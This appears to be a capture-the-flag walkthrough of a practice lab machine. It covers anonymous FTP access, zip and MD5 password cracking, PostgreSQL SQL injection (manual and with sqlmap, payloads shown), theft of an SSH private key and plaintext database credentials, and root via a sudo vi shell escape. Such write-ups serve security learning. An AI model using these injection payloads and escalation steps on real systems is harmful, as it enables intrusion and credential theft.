






## Machine Info

**Tags:**

Web, Network, Vulnerability Assessment, Databases, Injection, Custom Applications, Protocols, Source Code Analysis, Apache, PostgreSQL, FTP, PHP, Reconnaissance, Password Cracking, SUDO Exploitation, SQL Injection, Remote Code Execution, Clear Text Credentials, Anonymous/Guest Access

## Recon

```bash
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-22 01:43 CST
Nmap scan report for 10.129.103.216
Host is up (0.30s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.10.15.98
|      Logged in as ftpuser
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rwxr-xr-x    1 0        0            2533 Apr 13  2021 backup.zip
22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 c0:ee:58:07:75:34:b0:0b:91:65:b2:59:56:95:27:a4 (RSA)
|   256 ac:6e:81:18:89:22:d7:a7:41:7d:81:4f:1b:b8:b2:51 (ECDSA)
|_  256 42:5b:c3:21:df:ef:a2:0b:c9:5e:03:42:1d:69:d0:28 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-title: MegaCorp Login
|_http-server-header: Apache/2.4.41 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 5.0 (97%), Linux 4.15 - 5.8 (96%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.5 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## Foothold

### 21 - ftp

- download a bak file

```bash
$ ftp $IP
Connected to 10.129.103.216.
220 (vsFTPd 3.0.3)
Name (10.129.103.216:qwe): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||10013|)
150 Here comes the directory listing.
-rwxr-xr-x    1 0        0            2533 Apr 13  2021 backup.zip
226 Directory send OK.
ftp> binary
200 Switching to Binary mode.
ftp> get backup.zip
local: backup.zip remote: backup.zip
229 Entering Extended Passive Mode (|||10208|)
150 Opening BINARY mode data connection for backup.zip (2533 bytes).
100% |************************************************************************|  2533        1.97 MiB/s    00:00 ETA
226 Transfer complete.
2533 bytes received in 00:00 (8.90 KiB/s)
```

- john to crack zip file

```bash
$ unzip backup.zip
Archive:  backup.zip
[backup.zip] index.php password:
   skipping: index.php               incorrect password
   skipping: style.css               incorrect password

$ zip2john backup.zip > hash
ver 2.0 efh 5455 efh 7875 backup.zip/index.php PKZIP Encr: TS_chk, cmplen=1201, decmplen=2594, crc=3A41AE06 ts=5722 cs=5722 type=8
ver 2.0 efh 5455 efh 7875 backup.zip/style.css PKZIP Encr: TS_chk, cmplen=986, decmplen=3274, crc=1B1CCD6A ts=989A cs=989a type=8
NOTE: It is assumed that all files in each archive have the same password.
If that is not the case, the hash may be uncrackable. To avoid this, use
option -o to pick a file at a time.

$ john hash
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
741852963        (backup.zip)
1g 0:00:00:00 DONE 2/3 (2023-11-22 01:51) 33.33g/s 2560Kp/s 2560Kc/s 2560KC/s 123456..ferrises
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

- unzip bak file and get encrypted cred -> hashcat to crack hash

```php
<?php
session_start();
  if(isset($_POST['username']) && isset($_POST['password'])) {
    if($_POST['username'] === 'admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3") {
      $_SESSION['login'] = "true";
      header("Location: dashboard.php");
    }
  }
?>
```

- 2cb42f8734ea607eefed3b70af13bbd3 (md5 encryption) -> decrypt -> hashcat

```bash
$ hashcat -m 0 -a 0 hash1 /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 4.0+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.7, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]

$ hashcat -m 0 -a 0 hash1 /usr/share/wordlists/rockyou.txt --show
2cb42f8734ea607eefed3b70af13bbd3:qwerty789
```

- **admin:qwerty789** -> from index.php.bak, so cred for website login page, not ssh login

### 80 - http

#### sqli -> passwd hash -> crack



- utilize sqli to get info (especially user info)

1. test column_size

```bash
http://10.129.103.216/dashboard.php?search=Sandy' order by 1 -- - [y]
...
http://10.129.103.216/dashboard.php?search=Sandy' order by 6 -- - [x]
```

2. check visible column

```bash
http://10.129.103.216/dashboard.php?search=XXX'; select 1,2,3,4,5 -- -
```





- 2,3,4,5 is visbile

3. enumerate databases

````
http://10.129.103.216/dashboard.php?search=XXX'; select 1,schema_name,3,4,5 from information_schema.schemata -- -
```
information_schema
public: cars [x]
pg_catalog: pg_shadow, pg_user, pg_user_mapping
pg_toast_temp_1 [x]
pg_temp_1 [x]
pg_toast [x]
```

get table name
http://10.129.103.216/dashboard.php?search=XXX'; select 1,table_name,3,4,5 from information_schema.tables where table_schema='public'  -- -

get column name

http://10.129.103.216/dashboard.php?search=XXX'; select 1,column_name,3,4,5 from information_schema.columns where table_schema='pg_catalog' and table_name='pg_user' -- -
````



- get username and encrypted password, `http://10.129.103.216/dashboard.php?search=XXX'; select 1,usename,usesuper,passwd,usesysid from pg_catalog.pg_shadow -- -`



### sqlmap

```bash
$ sqlmap -u 'http://10.129.103.216/dashboard.php?search=XXX' --cookie="PHPSESSID=msujkn8q27o5r35u5nep9l1f16" --batch --level 5

[03:06:52] [INFO] GET parameter 'search' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
GET parameter 'search' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 131 HTTP(s) requests:
---
Parameter: search (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: search=XXX' AND 2841=(SELECT (CASE WHEN (2841=2841) THEN 2841 ELSE (SELECT 8598 UNION SELECT 2403) END))-- XznC

    Type: error-based
    Title: PostgreSQL AND error-based - WHERE or HAVING clause
    Payload: search=XXX' AND 5770=CAST((CHR(113)||CHR(113)||CHR(107)||CHR(106)||CHR(113))||(SELECT (CASE WHEN (5770=5770) THEN 1 ELSE 0 END))::text||(CHR(113)||CHR(98)||CHR(112)||CHR(122)||CHR(113)) AS NUMERIC)-- LnCN

    Type: stacked queries
    Title: PostgreSQL > 8.1 stacked queries (comment)
    Payload: search=XXX';SELECT PG_SLEEP(5)--

    Type: time-based blind
    Title: PostgreSQL > 8.1 AND time-based blind
    Payload: search=XXX' AND 2951=(SELECT 2951 FROM PG_SLEEP(5))-- wkGg

    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: search=XXX' UNION ALL SELECT NULL,NULL,NULL,NULL,(CHR(113)||CHR(113)||CHR(107)||CHR(106)||CHR(113))||(CHR(99)||CHR(66)||CHR(74)||CHR(81)||CHR(97)||CHR(104)||CHR(86)||CHR(117)||CHR(75)||CHR(76)||CHR(66)||CHR(103)||CHR(120)||CHR(76)||CHR(66)||CHR(118)||CHR(101)||CHR(90)||CHR(87)||CHR(106)||CHR(79)||CHR(122)||CHR(87)||CHR(74)||CHR(99)||CHR(107)||CHR(118)||CHR(79)||CHR(76)||CHR(106)||CHR(120)||CHR(104)||CHR(80)||CHR(107)||CHR(73)||CHR(97)||CHR(116)||CHR(99)||CHR(73)||CHR(87))||(CHR(113)||CHR(98)||CHR(112)||CHR(122)||CHR(113))-- mbuE
---
[03:06:53] [INFO] the back-end DBMS is PostgreSQL
web server operating system: Linux Ubuntu 20.10 or 20.04 or 19.10 (eoan or focal)
web application technology: Apache 2.4.41
back-end DBMS: PostgreSQL

os-shell> which bash
do you want to retrieve the command standard output? [Y/n/a] Y
command standard output: '/usr/bin/bash'
```

### get a shell



## Privilege Escalation

### ssh -> postgres

- collect private key of ssh, connect remote machine with ssh to get a better shell

```bash
# remote
postgres@vaccine:/var/lib/postgresql/.ssh$ cat id_rsa
```

```bash
# local
$ chmod 600 id_rsa

$ ssh -i id_rsa postgres@10.129.103.216
Welcome to Ubuntu 19.10 (GNU/Linux 5.3.0-64-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue 21 Nov 2023 07:25:11 PM UTC

  System load:  0.0               Processes:             184
  Usage of /:   32.6% of 8.73GB   Users logged in:       0
  Memory usage: 20%               IP address for ens160: 10.129.103.216
  Swap usage:   0%


0 updates can be installed immediately.
0 of these updates are security updates.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.
```

### postgres's db

- enumerate sensitive data

```bash
postgres@vaccine:/var/www/html$ cat dashboard.php | grep conn
$conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");
```

- indicate: db, username, password
- find proc listening to port 5432

```bash
postgres@vaccine:/var/www/html$ lsof -i:5432
COMMAND   PID     USER   FD   TYPE DEVICE SIZE/OFF NODE NAME
postgres 4439 postgres    3u  IPv4 117326      0t0  TCP localhost:postgresql (LISTEN)
```

- conn db [x]

```bash
postgres@vaccine:/var/www/html$ psql -h localhost -p 5432 -d carsdb -U postgres
Password for user postgres:
psql (11.7 (Ubuntu 11.7-0ubuntu0.19.10.1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
Type "help" for help.

carsdb=#
```

### postgres -> root

- sudo -l

```bash
postgres@vaccine:/var/www/html$ sudo -l
Matching Defaults entries for postgres on vaccine:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH
    XUSERFILESEARCHPATH", secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, mail_badpass

User postgres may run the following commands on vaccine:
    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

- vi -> :!/bin/bash -> root priv

```bash
root@vaccine:/var/www/html# uname -a
Linux vaccine 5.3.0-64-generic #58-Ubuntu SMP Fri Jul 10 19:33:51 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
root@vaccine:/var/www/html# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: ens160: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b0:8c:1b brd ff:ff:ff:ff:ff:ff
    inet 10.129.103.216/16 brd 10.129.255.255 scope global dynamic ens160
       valid_lft 2462sec preferred_lft 2462sec
    inet6 dead:beef::250:56ff:feb0:8c1b/64 scope global dynamic mngtmpaddr
       valid_lft 86396sec preferred_lft 14396sec
    inet6 fe80::250:56ff:feb0:8c1b/64 scope link
       valid_lft forever preferred_lft forever
```

